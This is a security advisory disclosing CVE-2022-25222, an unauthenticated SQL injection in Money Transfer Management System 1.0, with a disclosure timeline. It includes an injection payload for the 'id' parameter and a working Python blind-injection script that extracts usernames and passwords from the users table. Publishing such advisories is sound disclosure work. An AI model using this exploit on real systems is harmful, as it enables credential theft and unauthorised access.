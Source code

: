 ```yaml
---
slug: advisories/berry/
title: Money Transfer Management System 1.0 - Unauthenticated SQLi
authors: Oscar Uribe
writer: ouribe
codename: berry
product: Money Transfer Management System 1.0
date: 2022-03-15 12:00 COT
cveid: CVE-2022-25222
severity: 7.5
description: Money Transfer Management System 1.0 - Unauthenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, MTMS, SQL
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                  |
| --------------------- | ---------------------------------------------------------------- |
| **Name**              | Money Transfer Management System - Unauthenticated SQL Injection |
| **Code name**         | [Berry](https://en.wikipedia.org/wiki/Chuck_Berry)               |
| **Product**           | Money Transfer Management System                                 |
| **Affected versions** | Version 1.0                                                      |
| **State**             | Public                                                           |
| **Release date**      | 2022-03-15                                                       |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                     |
| **CVSSv3 Base Score** | 7.5                                                                              |
| **Exploit available** | Yes                                                                              |
| **CVE ID(s)**         | [CVE-2022-25222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25222)  |

## Description

Money Transfer Management System **Version 1.0** allows an unauthenticated
user to inject SQL queries in `admin/maintenance/manage_branch.php`
and `admin/maintenance/manage_fee.php` via the `id` parameter.

## Proof of Concept

Steps to reproduce

1. Go to `http://127.0.0.1/mtms/admin/maintenance/manage_branch.php`

2. Insert the following query inside the `id` parameter.

```sql
?id=1' and 1=1 -- -
```

3. The server response changes if the second part of the query is true or false.
   To automate the process use the below exploit.

System Information

* Version: Money Transfer Management System version 1.0.
* Operating System: Linux.
* Web Server: Apache
* PHP Version: 7.4
* Database and version: MySQL

## Exploit

```python
import requests
import urllib.parse

dictionary = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ !"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"""

def sqli_bool(base_url,query):


    url = "?id=1' and %s -- -" % query

    #proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    #r = requests.get(base_url+url, proxies=proxies)
    r = requests.get(base_url+url)

    if len(r.text) > 2700:
        return True

    else:
        return False


def get_length(url, query):

    for i in range(0,200):
        current_query = "(length((%s))=%s)"%(query,str(i))
        current_query = current_query=urllib.parse.quote(current_query)
        if sqli_bool(url,current_query):
            break

    if i !=199:
        return i
    else:
        return -1


def make_query(url,query):

    # Get length
    length = get_length(url,query)

    print("[*] Getting output length:")
    if length == -1:
        print("Error getting query length")
        return 0
    print("[+] Output Lenght: " + str(length))

    current_result = ""

    print()
    print("[*] Getting output: ")

    for pos in range(length+1):
        for char in dictionary:

            current_query = '(substr((%s),%s,1)="%s")' %(query,str(pos),requests.utils.quote(char))
            if sqli_bool(url,current_query):
                current_result += char
                print(current_result, end='\r')
                break

    print("[+] Found: " + " " * 100)
    print(current_result)


url = "http://127.0.0.1/mtms/admin/maintenance/manage_branch.php"

# must be only 1 row
# use limit and offset to iterate

# CHANGE THIS
query = "select concat(username,':', password) as t1 from users limit 1"

make_query(url,query)
```

## Mitigation

By 2022-03-15 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html>

## Timeline

<time-lapse
  discovered="2022-02-15"
  contacted="2022-02-15"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-03-15">
</time-lapse>
